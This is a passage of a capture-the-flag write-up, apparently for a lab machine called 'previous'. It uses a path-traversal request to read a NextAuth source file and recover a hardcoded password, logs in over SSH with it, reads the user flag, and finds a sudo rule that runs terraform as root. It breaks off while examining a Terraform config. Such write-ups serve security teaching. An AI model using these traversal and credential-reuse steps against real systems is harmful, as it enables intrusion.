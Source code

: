 Then we can use this information to craft our requests more effectively.

We try to read contents of authorized routes:
```
GET /api/download?example=../../../../../../../../../../../app/.next/server/pages/api/auth/[...nextauth].js 
```
```
...
authorize:async e=>e?.username==="jeremy"&&e.password===(process.env.ADMIN_SECRET??"MyNameIsJeremyAndILovePancakes")?{id:"1",name:"Jeremy"}:null})]
...
```

We find a function `authorize` that checks the username and password against known values.


## User Exploitation


We try to connect as the user `jeremy` with the password `MyNameIsJeremyAndILovePancakes` via ssh:
```bash
ssh jeremy@10.10.11.83
whoami
```
```
jeremy
```

We check the user flag:
```bash
cat /home/jeremy/user.txt
```
```
user flag value
```

## Root Exploitation

We check if user `jeremy` has sudo privileges:
```bash
sudo -l
```
```
Matching Defaults entries for jeremy on previous:
    !env_reset, env_delete+=PATH, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User jeremy may run the following commands on previous:
    (root) /usr/bin/terraform -chdir\=/opt/examples apply
```

We check what we are running if executing sudo command:
```bash
cat /opt/examples/main.tf
```
```
terraform {
  required_providers {
    examples = {
      source = "previous.htb/terraform/examples"
    }
  }
}

variable "source_path" {
  type = string
  default = "/root/examples/hello-world.ts"

```